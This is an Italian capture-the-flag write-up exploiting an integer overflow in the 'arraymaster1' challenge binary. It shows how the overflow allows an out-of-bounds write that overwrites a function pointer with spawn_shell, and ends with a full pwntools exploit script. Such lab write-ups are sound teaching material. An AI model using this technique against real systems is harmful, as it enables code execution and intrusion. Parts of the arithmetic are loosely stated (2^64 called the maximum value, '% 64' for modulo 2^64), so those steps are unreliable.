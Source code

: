 Quando viene creato un array, il programma alloca memoria in base al tipo e alla lunghezza. Tuttavia, non viene effettuato alcun controllo sulla dimensione effettiva dell’array durante le operazioni di set e get.

Quando creiamo un array di int64_t, la dimensione totale dell’array in byte viene calcolata come:

`memory = element_size * number_of_element`

In questa challenge possiamo sfruttare un overflow aritmetico.

18446744073709551616 è il massimo valore rappresentabile da un intero senza segno

Vogliamo determinare il `numero di elementi`

`number_of_element * 8 = 2^64`

Quindi `number_of_elementi = 2^64/8 + 1`

Aggiungiamo +1 per causare l’overflow

Quando il programma calcola la memoria da allocare fa `element_size * number_of_element = 8 * 2.305.843.009.213.693.953 = 18.446.744.073.709.551.624`

Questo calcolo supera 2^{64} e provoca un overflow, riducendo la memoria effettivamente allocata.

18.446.744.073.709.551.624 % 64 = 8. Quindi l’array allocato è solo di 8 byte (un solo elemento).

```c
p.sendlineafter("> ", "init A 64 2305843009213693953")
```

```c
p.sendlineafter("> ", "init B 8 256")
```

B viene creato subito dopo A in memoria.

Questo significa che possiamo usare A per sovrascrivere strutture dati utilizzate da B.

```c
p.sendlineafter("> ", "set A 7 " + str(shell))
```

Quando il programma esegue set A 7, calcola l’offset come:
`indirizzo_base_A + (7 * 8) = indirizzo_base_A + 56`

Ma noi abbiamo solo 8 byte allocati per A, quindi stiamo sovrascrivendo oltre i limiti di A

Sfruttare una vulnerabilità di overflow aritmetico nella gestione degli array per sovrascrivere un puntatore a funzione con l’indirizzo di spawn_shell, ottenendo così una shell.
`init()` alloca memoria per la struttura dell’array

| Offset | Descrizione | Dimensione |
| --- | --- | --- |
| +0 | Tipo | 8 byte |
| +8 | Lunghezza | 8 byte |
| +16 | Puntatore ai dati | 8 byte |
| +24 | Puntatore a get | 8 byte |
| +32 | Puntatore a set | 8 byte |

Con

```c
p.sendlineafter("> ", "set A 7 " + str(shell))
```

sovrascriviamo il puntatore alla funzione get

A[7] viene calcolato come `base_address + 7 * 8`

```c
from pwn import *

HOST = "arraymaster1.challs.cyberchallenge.it"
PORT = 9125

p = remote(HOST, PORT)

exe = ELF("../Downloads/arraymaster1")
context.binary = exe

shell = exe.sym['spawn_shell']
print(shell)

p.sendlineafter("> ", "init A 64 2305843009213693953")
p.sendlineafter("> ", "init B 8 256")
p.sendlineafter("> ", "set A 7 " + str(shell))
p.sendlineafter("> ", "get B 6")
p.interactive()

```